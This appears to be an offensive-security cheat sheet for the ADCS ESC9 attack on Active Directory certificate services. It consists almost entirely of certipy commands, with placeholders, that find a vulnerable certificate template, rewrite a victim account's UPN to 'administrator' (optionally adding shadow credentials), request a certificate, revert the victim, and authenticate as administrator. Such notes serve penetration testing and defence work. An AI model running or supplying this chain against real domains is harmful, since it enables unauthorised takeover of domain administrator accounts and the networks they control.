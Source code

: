 # ADCS ESC9

% adcs, certificate, ActiveDirectory, template

## 1. Finding vulnerable template
```
certipy find -u <username> -p '<password>' -target <CA_FQDN> -vulnerable -stdout
```

## 2. Read Victim User (optional)
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -user '<VICTIM>' \
    read
```

## 3. Update Victim User
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -upn 'administrator' -user '<VICTIM>' update
```

## 3a. Shadow Credentials (if needed)
```
certipy shadow \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -account '<VICTIM>' auto
```
## 4. Export Ticket
```
export KRB5CCNAME=<USERNAME>.ccache
```

## 5. Request certificate
```
certipy req \
    -k -dc-ip '<DC_IP>' \
    -target '<CA_FQDN>' -ca '<CA_HOST>' \
    -template '<TEMPLATE>'
```
## 6. Revert Victim User
```
certipy account \
    -u '<username>@<domain>' -p '<password>' \
    -dc-ip '<DC_IP>' -upn '<VICTIM>@<domain>' -user '<VICTIM>' update
```

## 7. Authenticate
```
certipy auth -pfx administrator.pfx -dc-ip <DC_IP> -domain <domain>
```
